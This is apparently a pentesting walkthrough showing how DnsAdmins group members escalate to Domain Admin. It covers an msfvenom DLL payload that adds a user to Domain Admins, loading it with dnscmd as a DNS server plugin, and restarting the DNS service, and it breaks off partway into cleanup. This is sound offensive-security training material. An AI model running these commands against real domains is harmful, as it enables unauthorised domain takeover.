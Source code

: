 ### Leveraging DnsAdmins Access

We can generate a malicious DLL to send us a reverse shell using msfvenom:
```console
zero@pio$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Download in the target, and load the DLL as non-privileged user:
```console
C:\zeropio> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

Attempting to execute this command as a normal user isn't successful. Only members of the **DnsAdmins** group are permitted to do this. Loading DLL as member of the DnsAdmins:
```console
C:\zeropio> Get-ADGroupMember -Identity DnsAdmins
```

After confirming group membership in the DnsAdmins group, we can re-run the command to load a custom DLL:
```console
C:\zeropio> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

> We must specify the full path to our custom DLL or the attack will not work properly.
{: .prompt-info}

First, we need our user's SID:
```console
C:\zeropio> wmic useraccount where name="netadm" get sid
```

We can use the `sc` command to check permissions on the service:
```console
C:\zeropio> sc.exe sdshow DNS
```

Now, we can issue the following commands to stop and start the service:
```console
C:\zeropio> sc stop dns
```

Starting DNS service:
```console
C:\zeropio> sc start dns
```

If all goes to plan, our account will be added to the Domain Admins group or receive a reverse shell if our custom DLL was made to give us a connection back:
```console
C:\zeropio> net group "Domain Admins" /dom
```

### Cleaning Up

This are very destructive actions and must be exercised with great care. These steps must be taken from an elevated console with a local or domain admin account. The first step is confirming that the ServerLevelPluginDll registry key exists. Until our custom DLL is removed, we will not be able to start the DNS service again correctly:
```console
C:\zeropio> reg query \\<TARGET>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```
